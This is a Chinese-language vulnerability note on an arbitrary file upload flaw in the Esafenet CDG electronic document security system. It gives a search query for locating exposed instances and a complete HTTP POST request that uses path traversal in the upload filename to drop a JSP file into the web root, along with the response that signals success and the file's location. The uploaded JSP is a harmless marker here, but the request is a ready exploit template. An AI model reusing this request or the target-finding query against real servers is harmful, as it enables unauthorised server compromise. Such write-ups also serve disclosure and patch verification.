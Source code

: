 # 亿赛通电子文档安全管理系统syn_user_policy任意文件上传漏洞

# 一、漏洞简介
 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通电子文档安全管理系统UploadFileFromClientServiceForClient接口处存在任意文件上传漏洞，未经授权的攻击者可通过此漏洞上传恶意后门文件，从而获取服务器权限。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/u9Ky1y2wQUawV_F0/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-968665.png)

# 四、漏洞复现
```plain
POST /CDGServer3/fileType/importFileType.do?flag=syn_user_policy HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 287
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysebeiskw
Accept-Encoding: gzip, deflate
Connection: close

------WebKitFormBoundarysebeiskw
Content-Disposition: form-data; name="fileshare"; filename="/..\\..\\..\\..\\webapps\\ROOT\\test.jsp"

<% out.println(1111);new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>
------WebKitFormBoundarysebeiskw--
```

![1699887100367-6d125344-50c6-4d4f-ab9f-efa399cc55a1.png](./img/u9Ky1y2wQUawV_F0/1699887100367-6d125344-50c6-4d4f-ab9f-efa399cc55a1-779465.png)

<font style="color:rgb(51, 51, 51);">服务器回显</font><font style="color:rgb(232, 62, 140);background-color:rgb(246, 246, 246);">{"result":"xmlFail","msg":"操作失败"}</font><font style="color:rgb(51, 51, 51);">则上传成功</font>

<font style="color:rgb(51, 51, 51);">上传文件位置</font>

```plain
/test.jsp 
```

![1699887140558-b9f3503d-d25c-40cf-82c8-04c185296eed.png](./img/u9Ky1y2wQUawV_F0/1699887140558-b9f3503d-d25c-40cf-82c8-04c185296eed-535457.png)



> 更新: 2024-04-20 22:01:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zkvw8ryeiekwzudv>
